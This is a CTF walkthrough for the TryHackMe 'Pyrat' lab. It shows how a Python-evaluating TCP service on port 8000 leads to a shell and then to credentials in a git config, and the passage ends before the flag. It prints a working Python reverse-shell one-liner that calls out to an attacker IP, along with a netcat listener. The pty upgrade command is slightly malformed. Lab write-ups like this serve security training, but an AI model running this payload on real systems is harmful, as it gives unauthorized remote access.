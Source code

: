 
# TryHackMe: Pyrat – User Flag Walkthrough

##  Initial Enumeration

After discovering port `8000` open alongside SSH (`22`) during an Nmap scan, the HTTP service responded oddly:

```
Try a more basic connection
```

This hinted that the service might interpret raw TCP input. Connecting with `nc`:

```bash
nc pyrat.thm 8000
```

Sending standard HTTP requests caused Python syntax errors (`name 'GET' is not defined`), suggesting the server was evaluating input as Python code.

I tried inputting: print("hello") to confirm this vulnerability

## Gaining a Shell

Using this vulnerability, I sent a reverse shell payload through the raw TCP connection:

---

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR-IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/sh"])
```

---

With a listener running:

```bash
rlwrap nc -lvnp 4444
```

I gained a shell as the `www-data` user.

I wanted a real shell so i ran:

'''bash
python3 'import pty; pty.spawn("/bin/bash")'

## Privilege Escalation – Git Credentials

While exploring the file system, I found a Git repository in `/opt/dev/.git/`. Inside `config`, I discovered hardcoded credentials:

```bash
cat /opt/dev/.git/config
```
